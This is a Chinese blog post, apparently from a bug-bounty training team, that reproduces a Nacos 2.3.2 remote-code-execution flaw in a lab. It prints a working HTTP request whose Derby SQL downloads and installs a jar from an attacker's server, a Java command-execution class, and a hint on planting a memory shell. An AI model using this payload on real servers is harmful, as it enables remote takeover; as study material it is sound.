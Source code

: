 #  nacos的1day保姆级漏洞复现   
湘南第一深情  湘安无事   2024-07-16 20:06  
  
**声明：**  
**由于传播、利用本公众号湘安无事所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。如有侵权烦请告知，我们会立即删除并致歉。谢谢！本文来自内部学员的分享报告。**  
  
文章内容  
  
  
  
  
1.昨天不是爆了nacos的rce,然后当天晚上带着学员一起再哪里研究复现，先把poc下载下来  
```
https://github.com/alibaba/nacos/releases/tag/2.3.2
```  
  
2.然后搭建  
nacos的  
2.3.2的靶场，github的上面有，后台回复nacos也可以  
```
https://github.com/alibaba/nacos/releases/tag/2.3.2
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZODHONOdlkiaA0qiczMVeUQcI1lT7CCJVDR20ic7GHwNt31YKBjjRtJxQ7Q/640?wx_fmt=png&from=appmsg "")  
  
  
3.然后直接搭建nacos的环境，这里就很有意思了，我们先执行搭建命令  
```
startup.cmd -m standalone
```  
  
4.你猜怎么的，我直接就成功了，但是学员没有一个人成功。笑死了果然每个人的电脑体质不一样，成功就直接访问出现的url路径就行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZO3822hMTniafGjIdYtdn3v6uRf5BCB86ucy6r2ANgjuraBZOofrp2wGQ/640?wx_fmt=png&from=appmsg "")  
  
5.学员不成功了那只能拷打我了，当天一起复现这个漏洞到晚上11.00多差不多3个小时真的裂开，不过还是学到一些东西的。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZOnHuyICkKSM3vyOCKne4FCcdR4HNF2lHFWicmVRoqib7dmWuujwzPUZUQ/640?wx_fmt=png&from=appmsg "")  
  
6.最后解决办法就是，拉个干净的虚拟机就可以直接搭建了，然后就搭建成功了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZOjWVELWNJIB0iceMF2lWcYBV0g76JdFjTo3AIfVT95tZ9JCjdlkxiamCw/640?wx_fmt=png&from=appmsg "")  
  
7.然后开始跟着学员一起研究为什么会rce,不急，我们先复现一下漏洞。然后把poc里面的config.py改成本机的局域网ip和没有被占用的端口，这里是为了起个web服务让nacos去请求这个web服务里面的内容  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZOQ3vas41FrUbicMYJ2f9kwUoyWNib5ribLQMUOBibuwEYnFWMICfgShyo2A/640?wx_fmt=png&from=appmsg "")  
  
8.然后直接运行命令python .\service.py 启动web服务，记住安装  
fl  
ask和  
requests的py模块  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZOhxEG0AwmKuD8HvHVBiaXd1htYeibBuWLlR7uABGPvGtz8R3ic0sstb1fA/640?wx_fmt=png&from=appmsg "")  
  
9.启动成功后，再运行一下python exploit.py就可以弹calc了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZO7Ullj0ceAIxxOWZWtueqmpVpdAV5NGqMianxDNOVjnU2ntgZee9XTqA/640?wx_fmt=png&from=appmsg "")  
  
10.然后你会发现再弹calc计算器的时候，会去请求service.py起的web服务./download  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZOTfmhoNicJ45Z8my6Gb1yEBDEcm9iaRqEOrN9pSqft9JzZOJRO7ibnqU8A/640?wx_fmt=png&from=appmsg "")  
  
11.然后我们去看一下这个  
service.py的内容，这里面写了个file.bin  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZOd2gtRwwCT2czch6JmUXMZdGdYdHvBibpxSqBMTJn7sCl2sicosf1m1Ow/640?wx_fmt=png&from=appmsg "")  
  
12.看不懂是把，没有关系，我们先看  
exploit.py干了啥，再  
exploit.py里面加个代理，然后查看  
数据包如下：  
```
POST /nacos/v1/cs/ops/data/removal HTTP/1.1
Host: host
User-Agent: python-requests/2.28.2
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 488
Content-Type: multipart/form-data; boundary=111111111111111111111111

--11111111111111111111111111111
Content-Disposition: form-data; name="file"; filename="file"

CALL sqlj.install_jar('http://192.168.197.56:8000/download', 'NACOS.aKjwPoiU', 0)

        CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','NACOS.aKjwPoiU')

        CREATE FUNCTION S_EXAMPLE_aKjwPoiU( PARAM VARCHAR(2000)) RETURNS VARCHAR(2000) PARAMETER STYLE JAVA NO SQL LANGUAGE JAVA EXTERNAL NAME 'test.poc.Example.exec'

--111111111111111111111111111111--
```  
  
显而易见了漏洞原理应该是sql导致的，去请求  
/download的内容，然后安装并执行恶意的jar文件，可以直接访问  
ht  
tp://192.168.197.56:8000  
/downloa  
d然后直接保存为1.jar，反编译打开就可以看到内容了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZOTTCDauBXPAf58excj1G4iaUNtibibreyuWTZlLRDcYrIuiaI3iaI7icAO9nA/640?wx_fmt=png&from=appmsg "")  
  
看不懂没关系，我们直接扣下来再idea运行就行，发现直接弹calc的，所以就是加载了执行命令的jar.具体细节没研究了，但是能挖出这种漏洞的大佬肯定是对数据库和nacos的特性很了解才能挖出来的,只能说nb  
![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/v1.3.10/assets/newemoji/Addoil.png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZOCYwej9KjBKcD7qmsticWicZyG2uzhJByzuTKFWuqiad9Oic2gktM6icfN8w/640?wx_fmt=png&from=appmsg "")  
```
public class Example {
    public static void main(String[] args) {
        String ret = exec("ipconfig");
        System.out.println(ret);
    }

    public static String exec(String cmd) {
        StringBuffer bf = new StringBuffer();
        try {
            String charset = "utf-8";
            String osName = System.getProperty("os.name");
            if (osName != null && osName.startsWith("Windows")) {
                charset = "gbk";
            }
            Process p = Runtime.getRuntime().exec(cmd);
            InputStream fis = p.getInputStream();
            InputStreamReader isr = new InputStreamReader(fis, charset);
            BufferedReader br = new BufferedReader(isr);
            while (true) {
                String line = br.readLine();
                if (line == null) {
                    return bf.toString();
                }
                bf.append(line);
            }
        } catch (Exception e) {
            StringWriter writer = new StringWriter();
            PrintWriter printer = new PrintWriter(writer);
            e.printStackTrace(printer);
            try {
                writer.close();
                printer.close();
            } catch (IOException e2) {
            }
            return "ERROR:" + writer.toString();
        }
    }
}

```  
  
13.所以要打入内存马，肯定是要生成一个jar，然后转换成base64的bin,填入  
service.py里面的payload值就行，那天就是这样子给学员和成员讲的，好了下机，不会复现联系带头大哥。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZOunibxHBEia9ox3yXHZJ0sUanbbLyM3bZVp4aaYLLo4pwsCwJgmCib8fQQ/640?wx_fmt=png&from=appmsg "")  
  
  
正文结束  
  
  
  
  
本文  
由带头大哥  
投稿而成  
  
湘安无事团队介绍  
  
  
  
  
我们湘安无事团队长期专注于教育漏洞平台，积累了丰富的经验和深厚的专业知识。目前取得的成绩有edu-src平台团队第二名，漏洞盒子团队排行榜第二名，带领很多同学和学员挖到了证书或者赏金漏洞，后面会收集并上传到纷传，也欢迎各位同学加入edu团队与深情的带头大哥或者成员交流。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYvoDJnlu0CCyHWM4FUtViaN0qibwQh0dS2k0mp1qSxPYia15VNHJiarYuvUXWPHPiaicdfU106Zic1nyepNA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYvoDJnlu0CCyHWM4FUtViaN0HO37mA0F2chFGiaRtyhTEllEMbTxbVycYS4fCtCHc8iaQsoMicSs6kjgQ/640?wx_fmt=png&from=appmsg "")  
  
纷传地址：已加过星球的联系深情的带头大哥  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYuOGGmuWexUehbbpZVL8AZObribF8FJTRyJdTnDaKIl8M6QTicucqicoS99KKy0KxicVSGwibVJFZP6zGw/640?wx_fmt=png&from=appmsg "")  
  
  
技术交流群  
  
  
  
  
  
**微信群请加下放wx**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn5oa6HoP95IWOj6v84icE1zbvPeIHjrXgaX9sOBCk28uHUE2lr94mDw8jJsJtETiaiaKQLZeUYHRWtkQ/640?wx_fmt=gif "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYv1KmnvWg4F1cV2OEkHgCiaSarbNcICEdMPsZYTIRJtmy2Pjv6w0s0xaNHQSSu02Z3nLwLiaVGgJ4YQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYv1KmnvWg4F1cV2OEkHgCiaSkQRuwribQ48rALeT45mfc5x9wMEw6YmGEhJTiaa2opwBBcZT7vjicssHA/640?wx_fmt=png&from=appmsg "")  
  
  
